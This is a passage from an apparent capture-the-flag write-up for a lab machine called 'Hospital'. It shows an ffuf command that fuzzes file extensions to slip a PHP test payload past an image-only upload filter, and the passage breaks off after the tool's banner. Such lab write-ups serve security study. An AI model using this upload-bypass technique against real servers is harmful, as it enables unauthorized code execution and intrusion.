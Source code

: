 ![alt text](../assets/images/hospital4.png)

Its seems like so straight we will upload file and got shell here but have to sure which Server is actually running cause there is 2. i will create 1 file try to upload first

```bash
➜  hospital touch a.txt
➜  hospital echo 1 > a.txt
➜  hospital ls
a.txt
➜  hospital cat a.txt 
1
```

![alt text](../assets/images/hospital5.png)

okey its seems like we can only upload image extension but i will also start fuzzing here maybe we can upload as php or smth like that.

```bash
➜  hospital ffuf -H 'Content-Type: multipart/form-data; boundary=---------------------------11902181737497576573931872037' -d $'-----------------------------11902181737497576573931872037\x0d\x0aContent-Disposition: form-data; name=\"image\"; filename=\"lego.FUZZ\"\x0d\x0aContent-Type: application/x-php\x0d\x0a\x0d\x0a<?php echo "RCE!"; ?>\x0d\x0a-----------------------------11902181737497576573931872037--\x0d\x0a' -u 'http://10.10.11.241:8080/upload.php' -w web_extension.txt -mr "Location: /success.php" 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.11.241:8080/upload.php
```